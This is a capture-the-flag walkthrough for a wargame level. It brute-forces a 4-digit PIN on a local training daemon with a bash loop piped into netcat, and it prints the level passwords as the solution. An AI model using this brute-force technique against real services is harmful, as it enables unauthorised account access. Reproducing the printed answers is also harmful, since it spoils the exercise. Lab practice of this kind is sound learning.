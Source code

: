 A daemon is listening on **port 30002** and will give you the password for bandit25 if given the password for **bandit24** and a secret numeric **4-digit pincode**. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Let's connect with port 30002 and see what it says:\
`nc localhost 30002`\
If you type the command it will output:\
```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

- - -

We have to write a script so that it can iteerate through 4-digit combinations.\
To do that let's go make a directory in `/tmp`.\
`mkdir /tmp/bandit24-25`\
`cd /tmp/bandit24-25`\
Then lets make our script! Go ahead and type:\
`vim pincode.sh`\
And put this inside our script:
```
#!/bin/bash

for i in {000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```
Remember to change the permissions so that it is executable:\
`chmod +x pincode.sh`

- - -

Go ahead and now run `./pincode.sh | nc localhost 30002`\
This will iterate through our combinations and eventually output the password for level 25!


The password for level 25:\
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
